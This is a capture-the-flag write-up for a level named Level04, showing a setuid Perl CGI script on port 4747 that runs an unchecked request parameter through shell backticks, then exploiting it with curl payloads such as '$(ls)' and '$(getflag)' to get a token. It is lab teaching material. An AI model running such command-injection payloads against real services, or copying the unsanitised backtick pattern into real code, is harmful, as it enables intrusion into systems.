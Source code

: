 # Level04

## Exploring the comnputer

```bash 
$ ls -la
total 16
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```

```bash 
$ file level04.pl 
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```

So we have a perl script 

## Learning more about Perl

Perl is a high-level, general-purpose programming language known for its strengths in text processing. It was originally developed for report generation and system administration tasks on Unix systems. Today, it's used for scripting, web development, and automating various tasks, especially those involving regular expressions and data parsing.

## Testing

```bash 
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The program is a CGI script in Perl (served by a web server on port 4747) that retrieves a parameter x from an HTTP request, executes a shell command with this value, and returns the result or any errors as HTML content.

```bash 
$ curl -I http://localhost:4747
HTTP/1.1 200 OK
Date: Thu, 15 May 2025 08:29:20 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html

```

```bash 
$ curl  http://localhost:4747?x=salut
salut
```

## Finding the vulnerability

We know that we pass an argument to a function without checking it, let's try to pass a shell command.


```bash 
$ curl 'http://localhost:4747?x=$(ls)'
level04.pl
```

## Getting the flag 

It works ! Let's try with getflag then :

```bash 
$ curl 'http://localhost:4747?x=$(getflag)'
Check flag.Here is your token : ******************
```








